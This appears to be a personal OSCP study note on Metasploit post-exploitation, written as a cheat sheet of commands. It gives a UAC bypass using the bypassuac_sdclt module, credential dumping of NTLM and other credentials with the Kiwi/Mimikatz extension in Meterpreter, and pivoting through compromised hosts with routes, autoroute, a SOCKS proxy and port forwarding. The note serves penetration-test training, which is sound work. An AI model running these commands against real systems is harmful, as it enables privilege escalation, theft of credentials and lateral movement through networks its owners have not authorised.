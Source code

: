 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/l. Metasploit Framework/6. Post-Exploitation Modules/"}
---
```


--------------
### UAC bypass:
- Review the integrity level of current process:
```
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- Effective UAC bypass for modern Windows systems:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

---------------
### Kiwi Credential Stealer:
- Requires privileges like Mimikatz
- In Meterpreter:
```
#Load module:
load kiwi

#Dump LM/NTLM creds:
creds_msv

#Dump all creds:
creds_all
```

-----------
### Meterpreter Port Forwarding:
```
route add <ip-or-range> <msfsessionid>
```
- Note: new shells on remote target through tunnel will only work if bind shells
- Example:
	route add 172.16.5.0/24 2

- Flush all routes:
```
route flush
```

- Auto-route module (recommended):
```
use multi/manage/autoroute
set session <id>
run
```

- SOCKS proxy module for tunnel outside of MSF:
	- Edit proxychains conf to port 1080 and win!
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

 - Meterpreter built-in port forward:
```
portfwd add -l <localport> -p <remoteport> -r <remoteip>
```
